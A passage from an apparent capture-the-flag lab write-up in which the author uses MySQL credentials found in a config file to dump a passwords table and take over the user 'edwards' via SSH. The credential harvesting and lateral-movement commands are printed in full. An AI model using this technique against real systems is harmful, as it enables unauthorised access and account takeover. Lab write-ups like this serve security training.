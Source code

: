 {% code overflow="wrap" %}
```json
{"SQL_URI": "mysql+pymysql://superpasstester:VUO8A2c2#3FnLq3*a9DX1U@localhost/superpasstest"}
```
{% endcode %}

I use that to connect to the database and get edwards's passwords.

```apacheconf
corum@agile:/$ mysql -u superpasstester -p
Enter password: 
......
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| performance_schema |
| superpasstest      |
+--------------------+
3 rows in set (0.00 sec)

mysql> use superpasstest;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+-------------------------+
| Tables_in_superpasstest |
+-------------------------+
| passwords               |
| users                   |
+-------------------------+
2 rows in set (0.00 sec)

mysql> select * from passwords;
+----+---------------------+---------------------+---------+------------+----------------------+---------+
| id | created_date        | last_updated_data   | url     | username   | password             | user_id |
+----+---------------------+---------------------+---------+------------+----------------------+---------+
|  1 | 2023-01-25 01:10:54 | 2023-01-25 01:10:54 | agile   | edwards    | d07867c6267dcb5df0af |       1 |
|  2 | 2023-01-25 01:14:17 | 2023-01-25 01:14:17 | twitter | dedwards__ | 7dbfe676b6b564ce5718 |       1 |
+----+---------------------+---------------------+---------+------------+----------------------+---------+
2 rows in set (0.00 sec)
```

I log in as the `edwards` via SSH.
